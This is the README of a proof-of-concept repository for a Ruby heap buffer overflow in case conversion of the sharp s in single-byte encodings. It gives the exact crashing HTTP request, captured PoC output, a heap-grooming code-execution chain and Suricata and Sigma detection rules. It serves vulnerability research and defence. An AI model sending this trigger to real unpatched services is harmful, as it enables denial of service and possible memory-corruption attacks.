

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> · <a href="#triggering-the-overflow">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#capture">Capture</a> · <a href="#what-this-repo-proves-and-does-not-prove">Claims</a> · <a href="https://blog.al4n4n.com/CVE-2026-132825-Ruby-Case-Conversion-Heap-Buffer-Overflow/">Write-up</a>
</p>

---

## Disclaimer

For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-132825: Ruby Case-Conversion Heap Buffer Overflow via Sharp S in Single-Byte Encodings

**CWE-193** | Off-by-one error | Ruby 3.3.13 and earlier, 3.4.0 to 3.4.12, 4.0.0 to 4.0.9 | Applications that change the case of attacker text held in ISO-8859-x or Windows-125x

Ruby's security advisory of 2026-11-18 describes this bug (GHSA-34m4-m9fh-gqp5, also referred to as Ruby2Shell) as a one-byte heap buffer overflow in the case conversion of strings that "may allow remote code execution". It is rated CVSS 7.4 (High); no vector string has been published, and the GitHub advisory labels it Critical.

One HTTP request with no credentials, a `POST` whose body is 21 bytes of `0xDF` declared as ISO-8859-1, makes Ruby 3.4.12 write one byte past a heap buffer while a Sinatra application on Puma upper-cases the text. The AddressSanitizer build reports a `WRITE of size 1` in `case_map` and aborts; Ruby 3.4.13 answers the same request correctly; and the run is in a live pcap. A separate in-process harness on the stock build (glibc 2.41, no sanitizer) triggers the real overflow on a heap where neighbouring chunks have been prepared with fake free-list metadata, and shows that the resulting size-field corruption leads to forward consolidation, overlapping allocation, and controlled dispatch of a stand-in gadget. Remote code execution against the product was not reached; the [claims table](#what-this-repo-proves-and-does-not-prove) names the gaps. See also [Lab deviations](#lab-deviations).

No public PoC existed for this CVE before this repo (checked on 2026-11-19).

**Author:** al4n4n (Dadb0d)

**Write-up:** [blog.al4n4n.com/CVE-2026-132825-Ruby-Case-Conversion-Heap-Buffer-Overflow/](https://blog.al4n4n.com/CVE-2026-132825-Ruby-Case-Conversion-Heap-Buffer-Overflow/)

**Fixed in:** Ruby 3.3.14, 3.4.13 and 4.0.10 ([commit b841d6f](https://github.com/ruby/ruby/commit/b841d6f4f1b442ac9cc8de590b43f9e4ba6d3603))

---

## The overflow

Ruby has one `case_map` function per legacy single-byte encoding. Fourteen of them, `enc/iso_8859_{1,2,3,4,9,10,13,14,15,16}.c` and `enc/windows_{1250,1252,1254,1257}.c`, handle the sharp s (`ß`, byte `0xDF`), whose upper-case form is the two bytes `SS`. Their loop checks that one output byte is free and then, for a sharp s, writes two. From `enc/iso_8859_1.c` in Ruby 3.4.12, abridged, with comments added:

```c
264  OnigUChar *to_start = to;
267  while (*pp < end && to < to_end) {          /* room for ONE byte is enough to enter */
268    code = *(*pp)++;
269    if (code == SHARP_s) {                    /* 0xDF */
270      if (flags & ONIGENC_CASE_UPCASE) {
272        *to++ = 'S';                          /* first byte: fits */
273        code = (flags & ONIGENC_CASE_TITLECASE) ? 's' : 'S';
       ...
293    *to++ = code;                             /* second byte: may be at to_end */
```

The caller, `rb_str_casemap` in `string.c`, allocates the output buffer as a 24-byte header plus the input length plus 20 (`CASE_MAPPING_ADDITIONAL_LENGTH`). For 21 sharp s that is a 41-byte output area in a 65-byte allocation. Twenty of them fill offsets 0 to 39. The twenty-first enters the loop at offset 40 with one byte free and writes `S` at 40 and `S` at 41, the first byte past the allocation.

The byte is not attacker-chosen: it is `S` (`0x53`) for `upcase` and `swapcase`, or `s` (`0x73`) for `downcase(:fold)` and for the first character under `capitalize`. The attacker controls only the input length, and with it the size of the allocation the byte follows.

The fix makes the loop ask for two free bytes, in all 14 files:

```diff
-  while (*pp < end && to < to_end) {
+  while (*pp < end && to_end - to > 1) {
```

## Trigger conditions

| # | Condition |
|---|---|
| 1 | The string's encoding is one of ISO-8859-1, -2, -3, -4, -9, -10, -13, -14, -15, -16 or Windows-1250, -1252, -1254, -1257. UTF-8, Ruby's default, is not affected. |
| 2 | The application calls `upcase`, `swapcase`, `capitalize`, `casecmp?` or `downcase(:fold)` (or a bang form) on it without the `:ascii` option. For `upcase`, a string with only 7-bit characters takes a fast path and never reaches `case_map`. |
| 3 | A sharp s is processed when exactly one byte of the buffer is free. With `j` other bytes and `k` sharp s before it in an `n`-byte input, that is `j + 2k = n + 19`. For an all-sharp-s input `n` must be odd and at least 21, so 21 × `0xDF` is the smallest. Mixed inputs work for even `n` too, for example 7 × `a` + 21 × `0xDF`. |

## Tested on

| Ruby (as printed by the running interpreter) | Build | Host application | Host | Date | Result |
|---|---|---|---|---|---|
| `ruby 3.4.12 (2026-10-23 revision 366f5fdc00) +PRISM [x86_64-linux]` (vulnerable) | official tarball, clang 19.1.7, AddressSanitizer | Sinatra 4.2.2 on Puma 8.1.2 | Debian trixie container on Ubuntu 24.04, Docker 29.9.2, x86_64 (AMD Ryzen 7 7840HS) | 2026-11-20 | heap-buffer-overflow report, process abort (SIGABRT), 1/1 |
| `ruby 3.4.13 (2026-11-19 revision 48857d6f2e) +PRISM [x86_64-linux]` (patched) | same | same | same | 2026-11-20 | 200 with the correct text, no report |

Affected per advisory: Ruby 3.3.13 and earlier, 3.4.0 through 3.4.12, 4.0.0 through 4.0.9. Tested by us: the rows above. The 3.3 and 4.0 lines, the other 13 encodings and the other four methods were not run.

## Lab deviations

| Deviation | Why | Effect on real-world exploitability |
|---|---|---|
| Ruby built with AddressSanitizer (recipe from `doc/contributing/building_ruby.md`); no source patches | With the default 21-byte body the byte lands in unused space and nothing visible happens on a release build | The abort is the sanitizer's. A production Ruby does not abort on this request; what the byte does depends on request size and allocator |
| `-DUSE_MN_THREADS=0` | Required by Ruby's sanitizer recipe | None on the bug; it compiles out the optional M:N thread scheduler |
| `ASAN_OPTIONS=use_sigaltstack=0:detect_leaks=0:abort_on_error=1` | The first two are Ruby's own sanitizer defaults; `abort_on_error=1` makes the sanitizer end with `abort()`, so the container exit status is 134 (SIGABRT) and not 1 | None; it changes only how the sanitizer terminates |
| Host application `lab/app/app.rb`: minimal Sinatra service that tags the body with the client's declared charset and calls `String#upcase` | A library bug needs a caller; the advisory names none | A real application must hold attacker text in one of the 14 encodings and call one of the five methods. Honouring a client-declared charset is this lab's design choice |
| `GET /` returns `RUBY_DESCRIPTION` | Each run records the interpreter version | None |
| `docker run --init`, `--ulimit core=0`, no restart policy | Ruby is not PID 1, so `abort()` ends with SIGABRT; crashed container kept for inspection | A real deployment has a supervisor that restarts the worker |
| Lab host clock about 60 s ahead of the machine that ran the scripts | Not changed | None; the two clocks appear side by side in the evidence and the capture |

Without the sanitizer, the default body's extra byte falls into glibc's spare bytes and the request is answered normally. A 28-byte body (`--prefix 7 --count 21`, a 72-byte allocation with no spare bytes) repeated over HTTP ended in glibc's `munmap_chunk(): invalid pointer` abort in 4 of 4 fresh stock containers (74 to 976 requests); the default body did nothing in 200. Those runs are lab notes, not shipped evidence.

## Files

| File | Purpose |
|---|---|
| `setup.py` | Builds and starts the vulnerable and patched targets on 127.0.0.1; `--remote`, `--restart`, `--capture`, `--down` |
| `check.py` | Version check: compares `ruby -v` with the advisory's ranges, sends nothing. Exit 0 vulnerable, 1 not vulnerable, 2 unknown |
| `poc.py` | The trigger: one HTTP request, then the target's own sanitizer report and exit status. `--rounds N`, `--count`, `--prefix`, `--charset` |
| `lab/Dockerfile` | Lab image: Ruby from the official tarball with AddressSanitizer, plus the host application; every download checksum-verified |
| `lab/gems.sha256` | Pinned sha256 of the eight gem files the image installs |
| `lab/app/app.rb` | Host application: Sinatra service that upper-cases the posted text in the declared charset |
| `lab/app/config.ru` | Rack entry point for Puma |
| `poc/ruby_consol_probe.c` | In-process chain harness: embeds Ruby, grooms heap, triggers real overflow → consolidation → overlap → dispatch (stand-in gadget) |
| `capture/exploit.pcap` | Live capture of the trigger run |
| `capture/README.md` | Capture checksum, provenance, packet timeline and filters |
| `detection/cve-2026-132825.rules` | Suricata rules, sid 1000001 and 1000002 (experimental) |
| `detection/cve-2026-132825-crash.yml` | Sigma rule on the target's crash output (experimental) |
| `detection/README.md` | Rule documentation and limits |
| `evidence/` | Raw, unedited output of every cited run ([INDEX](evidence/INDEX.md)) |
| `meta.json` | Entry metadata for the repository index |
| `poster.png` | Poster image (1200x630) |
| `README.md` | This write-up |

## Repository structure

```
CVE-2026-132825/
├── README.md
├── meta.json
├── poster.png
├── setup.py
├── check.py
├── poc.py
├── lab/
│   ├── Dockerfile
│   ├── gems.sha256
│   └── app/
│       ├── app.rb
│       └── config.ru
├── poc/
│   └── ruby_consol_probe.c
├── capture/
│   ├── exploit.pcap
│   └── README.md
├── detection/
│   ├── cve-2026-132825.rules
│   ├── cve-2026-132825-crash.yml
│   └── README.md
└── evidence/ -> see evidence/INDEX.md
```

## Usage

Prerequisites: Python 3.8 or later (standard library only) and Docker with BuildKit (24 or later) on an x86_64 Linux host, plus about 6 GB of disk. The first run compiles Ruby twice with the sanitizer, about 2.5 minutes per image on 16 cores; later runs use the cache. Both targets listen on 127.0.0.1 only.

```sh
# Docker on another machine: add --remote user@host to the first setup.py call and --docker "ssh user@host docker" to poc.py
python3 setup.py                 # prints ruby -v, the gem versions and the compiled loop guard of both targets
python3 check.py --ruby "docker exec cve-2026-132825-vuln /opt/ruby/bin/ruby"   # VERDICT: VULNERABLE (exit 0)
python3 poc.py --target 127.0.0.1:8325 --container cve-2026-132825-vuln       # RESULT: impact observed (exit 0)
python3 poc.py --target 127.0.0.1:8326 --container cve-2026-132825-patched    # RESULT: impact not observed (exit 1)
python3 setup.py --restart vuln  # the vulnerable container stays exited after a hit, so its log stays readable
python3 setup.py --down --rmi    # teardown
```

`--container` only reads the target's log and exit status after the fact; it is not part of the attack.

## Check (non-destructive)

`check.py` compares `ruby -v` with the advisory's ranges and never sends a trigger. It is version comparison only: a distribution package can carry the fix under an older version, and a version cannot tell whether any application uses a legacy encoding. There is no safe behavioural probe; the only difference is the out-of-bounds write itself.

## Triggering the overflow

`poc.py` first posts `stra\xdfe` to show that the endpoint expands a sharp s (`STRASSE`), then sends the trigger. From `evidence/poc-vuln.txt`, the captured run:

```
[3] Trigger: POST /upcase with 0 x 'a' + 21 x 0xDF, declared ISO-8859-1
    output buffer: 21 input bytes + 20 = 41 bytes
    vulnerable loop: the last sharp s starts at offset 40 with 1 byte free and writes 2 -> 1 byte past the buffer
    (sent 07:31:45.256 UTC)
    > POST /upcase HTTP/1.1
    > Host: 127.0.0.1:8325
    > User-Agent: cve-2026-132825-poc
    > Content-Type: text/plain; charset=ISO-8859-1
    > Content-Length: 21
    > Connection: close
    >
    > [\xdf * 21]   (21 bytes)
    < no HTTP response: the connection was closed after 0 bytes (0.56 s)
    service after the request: DOWN (ConnectionResetError: [Errno 54] Connection reset by peer)
[4] Target side: container cve-2026-132825-vuln
    state=exited exit_code=134 oom_killed=false finished=2026-11-20T07:32:45.309841456Z (SIGABRT)
    container log saved to evidence/target-vuln-asan.txt (786 lines)
    AddressSanitizer report from the target's log (266 lines, stacks shortened):
    | ==7==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x50700021c331 at pc 0x773253c25ef8 bp 0x77324ce7f810 sp 0x77324ce7f808
    | WRITE of size 1 at 0x50700021c331 thread T6
    |     #0 0x773253c25ef7 in case_map /usr/src/ruby/./enc/iso_8859_1.c:293:11
    |     #1 0x5f1ab89b1c9e in rb_str_casemap /usr/src/ruby/string.c:7839:36
    |     #2 0x5f1ab89a0b49 in rb_str_upcase /usr/src/ruby/string.c:8017:15
[...]
    | 0x50700021c331 is located 0 bytes after 65-byte region [0x50700021c2f0,0x50700021c331)
    | allocated by thread T6 here:
[...]
    |     #4 0x5f1ab89b1c02 in rb_str_casemap /usr/src/ruby/string.c:7834:26
[...]
    | SUMMARY: AddressSanitizer: heap-buffer-overflow /usr/src/ruby/./enc/iso_8859_1.c:293:11 in case_map
[...]
    | ==7==ABORTING
    Ruby's own report of the same abort, innermost frames:
    | /app/app.rb:41: [BUG] ASAN error
    | -- Control frame information -----------------------------------------------
    | c:0044 p:---- s:0264 e:000263 CFUNC  :upcase
    | c:0043 p:0078 s:0260 e:000259 BLOCK  /app/app.rb:41 [FINISH]
[...]
[*] Crashes: 1/1 trigger request(s)
[+] The target's AddressSanitizer reported a heap-buffer-overflow (WRITE of size 1) in case_map while handling the request, and the process aborted.
RESULT: impact observed: memory corruption (heap buffer overflow), process abort (exit 0)
exit status: 0
```

The 65-byte region is the 24-byte header plus the 41-byte output area, allocated at `string.c:7834`. Ruby's crash report names `/app/app.rb:41`, the `upcase` call in the handler. The uncut log is `evidence/target-vuln-asan.txt`. The overflow is deterministic (`--rounds` defaults to 1).

## Negative control

The same `poc.py`, the same request, against the same application on Ruby 3.4.13 (`evidence/poc-patched.txt`):

```
[*] CVE-2026-132825 trigger, run 20261120T073152Z, target http://127.0.0.1:8326
[1] Preflight: GET /
    < HTTP 200: case-service on ruby 3.4.13 (2026-11-19 revision 48857d6f2e) +PRISM [x86_64-linux]
[...]
    > [\xdf * 21]   (21 bytes)
    < HTTP 200 OK
    < content-type: text/plain;charset=ISO-8859-1
    < content-length: 42
    < body: [S * 42]   (42 bytes)
    service after the request: still answering (HTTP 200)
    the response is the correct upper-case text (42 bytes)
[4] Target side: container cve-2026-132825-patched
    state=running exit_code=0 oom_killed=false
    no AddressSanitizer report in the target's log

[*] Crashes: 0/1 trigger request(s)
[-] The target answered every request and is still up; its log has no sanitizer report.
RESULT: impact not observed (exit 1)
exit status: 1
```

42 × `S` is the correct upper-case form of 21 sharp s.

## Downstream impact

The advisory names no affected application. Any Ruby program on an affected version that holds attacker text in one of the 14 encodings and changes its case is exposed. Applications that work only in UTF-8 are not reachable. Only the lab application was tested.

## Detection rules

**Experimental / minimally validated.** Each rule was tested only against this repository's capture or target log and one benign sample.

| Rule | Matches | Result of the one test |
|---|---|---|
| [Suricata sid 1000001](detection/cve-2026-132825.rules) | An HTTP request whose `Content-Type` declares a charset beginning with `iso-8859` and whose body holds 21 or more consecutive `0xDF` bytes | Fired once on `capture/exploit.pcap`; silent on a benign request with a single sharp s |
| Suricata sid 1000002, same file | The same body with a `windows-125` charset | Loads, and silent on the benign sample. It has not fired on any sample, because the capture uses ISO-8859-1 |
| [Sigma](detection/cve-2026-132825-crash.yml) | Crash lines in the Ruby process output: `heap-buffer-overflow` with `case_map`, `[BUG] ASAN error` with `upcase`, or glibc's `munmap_chunk(): invalid pointer` | The first two conditions match `evidence/target-vuln-asan.txt` and not the patched run. The third is meant for builds without the sanitizer; it has no sample in this repository and is not specific to this CVE |

Limits: the Suricata rules need Suricata 6.0+ and plaintext HTTP, and match only consecutive `0xDF` bytes. The Sigma rule needs process output in the log pipeline. Details: [detection README](detection/README.md).

## Capture

[`capture/exploit.pcap`](capture/exploit.pcap) is a live tcpdump of the run above: 44 packets, 4,564 bytes, sha256 `a1ea366453baeb310f90d0e60d1cb89229a0fbae16774e63747213877f651f19`. Trigger is packet #24; the target closes without a reply (#26) and later connections are reset. Provenance: [capture README](capture/README.md).

```sh
tcpdump -nn -X -r capture/exploit.pcap 'tcp dst port 8325 and greater 250'   # the trigger request, packet #24
```

## Evidence

[`evidence/INDEX.md`](evidence/INDEX.md) maps each file to its command and claim.

## In-process code-execution chain

A separate harness ([`poc/ruby_consol_probe.c`](poc/ruby_consol_probe.c), output `evidence/impact-vuln-stock-inprocess.txt`) embeds Ruby via `libruby-static` on the stock build (Ruby 3.4.12, glibc 2.41, no sanitizer). It grooms the heap, writes fake free-list metadata (fd/bk pointers for safe unlink and a fake next-chunk header) into two neighbouring allocations, then calls the real `String#downcase(:fold)` on a 1004-byte ISO-8859-1 payload. The overflow byte `0x73` corrupts the adjacent chunk's size field (0x51 to 0x73); glibc's forward consolidation on the mapping-buffer free merges the chunks (1056 + 112 = 1168 bytes); a follow-up allocation overlaps 24 bytes into the next object; and a function-pointer overwrite dispatches a stand-in gadget. Exit 0.

The overflow contributes one byte; the harness supplies the rest. This does not change the network PoC or product-level impact.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| The 21 × `0xDF` ISO-8859-1 request makes Ruby 3.4.12 write one byte past a heap buffer in `case_map` (`enc/iso_8859_1.c:293`), reached through `String#upcase` in the request handler | **Proven** | `evidence/poc-vuln.txt`, `evidence/target-vuln-asan.txt` |
| The request arrives over HTTP with no credentials, and nothing else is done to the target | **Proven** | `capture/exploit.pcap` (packet #24), `poc.py` |
| The sanitizer build aborts (SIGABRT, exit 134) and the service goes down | **Proven** | `evidence/poc-vuln.txt`; capture packets #26 and #36 to #44 |
| Ruby 3.4.13 handles the same request correctly | **Confirmed** (negative control run) | `evidence/poc-patched.txt` |
| In-process code-execution chain (stand-in gadget, real Ruby overflow) | **Proven (in-process, stand-in gadget)** | `evidence/impact-vuln-stock-inprocess.txt`, source [`poc/ruby_consol_probe.c`](poc/ruby_consol_probe.c). The harness writes fake free-list metadata into neighbouring chunks, then triggers the real `String#downcase(:fold)` overflow (one byte, 0x73, on the adjacent size field). Forward consolidation, overlapping allocation and controlled dispatch follow. The overflow contributes the size-field corruption; the harness supplies the rest (heap layout, fake metadata, stand-in gadget). Exit 0 |
| Remote code execution against the product | **Not reached** | The in-process harness uses C-level heap grooming, harness-written fake chunk metadata, and a stand-in gadget at a known address. A product-level exploit would additionally need: attacker control of neighbouring chunk contents (fd/bk and next-chunk header), remote heap grooming over HTTP, a heap-address leak (to bypass ASLR), and a real gadget. None of that was built |
| The other 13 encodings and the other four methods | **Not reached** | Not run. The fix diff shows the same code pattern in all 14 files; `poc.py --charset` selects another encoding |

- **Proven**: the evidence file is in the repo.
- **Confirmed**: the negative control was run.
- **Not reached**: tried, with what was tried. This is a limit of this work, not of the bug: the advisory says remote code execution may be possible, and nothing here contradicts that.

## References

- [Ruby security advisory, 2026-11-18: multiple vulnerabilities in Regexp and String case conversion](https://www.ruby-lang.org/en/news/2026/11/18/multiple-vulnerabilities-in-regexp-and-string/)
- [GHSA-34m4-m9fh-gqp5](https://github.com/ruby/ruby/security/advisories/GHSA-34m4-m9fh-gqp5)
- [CVE-2026-132825](https://www.cve.org/CVERecord?id=CVE-2026-132825)
- [Fix commit b841d6f, "Fix a heap buffer overflow in case mapping of the sharp s"](https://github.com/ruby/ruby/commit/b841d6f4f1b442ac9cc8de590b43f9e4ba6d3603)

## Changelog

- 2026-11-20: published.

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).

<sub>CVE-2026-132825 GHSA-34m4-m9fh-gqp5 Ruby2Shell Ruby CRuby MRI String upcase swapcase capitalize casecmp downcase fold case_map rb_str_casemap sharp s eszett 0xDF ISO-8859-1 Windows-1252 single-byte encoding CWE-193 off-by-one heap buffer overflow memory corruption AddressSanitizer SIGABRT Sinatra Puma poc exploit pcap suricata sigma detection</sub>

<!-- citation:start -->
## Cite this research

> al4n4n (Dadb0d). Ruby case-conversion one-byte heap buffer overflow via sharp s in single-byte encodings (CVE-2026-132825). *achilles-heel*, added 2026-11-20. <https://github.com/al4n4n/achilles-heel/tree/main/CVE-2026-132825>. [Research article](https://blog.al4n4n.com/CVE-2026-132825-Ruby-Case-Conversion-Heap-Buffer-Overflow/).
<!-- citation:end -->
